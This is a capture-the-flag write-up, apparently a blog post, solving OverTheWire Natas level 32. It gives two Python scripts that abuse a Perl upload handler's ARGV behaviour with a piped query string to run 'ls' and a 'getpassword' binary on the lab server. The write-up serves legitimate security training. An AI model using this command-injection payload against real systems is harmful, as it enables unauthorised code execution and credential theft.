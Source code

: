 ```yaml
---
layout: post
title:  "Natas Level 31 → Level 32"
date:   2021-06-08 03:00:55
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: Kino's Perl
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
Logging into the natas32 site we see it's nearly identical to natas31. The difference is that we now need to run an unnamed binary in the webroot.

Since the sites are nearly identical, we can repurpose the code from the previous level. The first thing we need to do is locate the binary in question. The version of **ls** used by the server requires you to enter a directory name. Simply entering in ls will not return any results.

```python
import re
import requests
import os.path
from requests.auth import HTTPBasicAuth

password = 'n------------------------------e'
session = requests.Session()

auth = HTTPBasicAuth('natas32', password)
url = 'http://natas32.natas.labs.overthewire.org/'
payload = url + '?ls . |'

if not os.path.exists('natas32.csv'):
    with open('natas32.csv', 'w') as f:
        f.write('temp,file')

csv = {'file': open('natas32.csv', 'rb')}

resp = requests.post(payload, files=csv, data={'file': 'ARGV', 'submit': 'Upload'}, auth=auth)
page = resp.text

if os.path.isfile('natas32.csv'):
    os.remove('natas32.csv')

print(page)
```

Here we see **getpassword** among the files. This must be our binary. Let's edit the above code to run the binary instead.

```python
import re
import requests
import os.path
from requests.auth import HTTPBasicAuth

password = 'n------------------------------e'
session = requests.Session()

auth = HTTPBasicAuth('natas32', password)
url = 'http://natas32.natas.labs.overthewire.org/'
payload = url + '?./getpassword |'

if not os.path.exists('natas32.csv'):
    with open('natas32.csv', 'w') as f:
        f.write('temp,file')

csv = {'file': open('natas32.csv', 'rb')}

resp = requests.post(payload, files=csv, data={'file': 'ARGV', 'submit': 'Upload'}, auth=auth)
page = resp.text

if os.path.isfile('natas32.csv'):
    os.remove('natas32.csv')

passwd = re.findall("([a-zA-Z0-9]{32})", page)
print(passwd[-1])
```

If you receive a jumbled mess instead of the password for the next level, you more than likely forgot the pipe at the end of the payload. Without that, the site will not execute the file, but attempt to print it.